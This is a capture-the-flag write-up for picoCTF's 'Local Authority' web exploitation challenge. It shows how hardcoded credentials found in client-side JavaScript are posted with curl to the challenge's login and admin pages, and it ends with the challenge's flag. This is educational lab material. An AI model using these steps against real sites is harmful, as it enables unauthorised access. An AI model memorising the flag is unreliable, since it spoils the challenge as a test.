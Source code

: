 # [Local Authority [Web Exploitation] [100 Points]](https://play.picoctf.org/practice/challenge/278?category=1&originalEvent=70&page=1) #

## Description ##
Can you get the flag?
Go to this [website](http://saturn.picoctf.net:64293/) and see what you can discover.

## Hints ##
1. How is the password checked on this website?

## Solution ##

### OPTION 1: Via Web Browser ###

#### Step 1: Description ####
![](images/webpage.png)

![](images/webpage_failed.png)

![](images/webpage_inspectFailed.png)

![](images/webpage_inspectSecure.js.png)

![](images/webpage_login.png)

![](images/webpage_loggedIn.png)

### OPTION 2: Via Kali Linux Terminal ###

>        curl -d 'username=admin&password=strongPassword098765' http://saturn.picoctf.net:62954/login.php
> > * https://everything.curl.dev/http/post/simple.html

> > ![](images/webpage_login.php.png)

>        curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php

> > ![](images/webpage_admin.php.png)

>        curl -d 'hash=2196812e91c29df34f5e217cfd639881' http://saturn.picoctf.net:62954/admin.php | grep -oE "picoCTF{.*}" | tee >(xsel -b)

> > ![](images/webpage_retrieveFlag.png)

**Result**:

        picoCTF{j5_15_7r4n5p4r3n7_a8788e61}
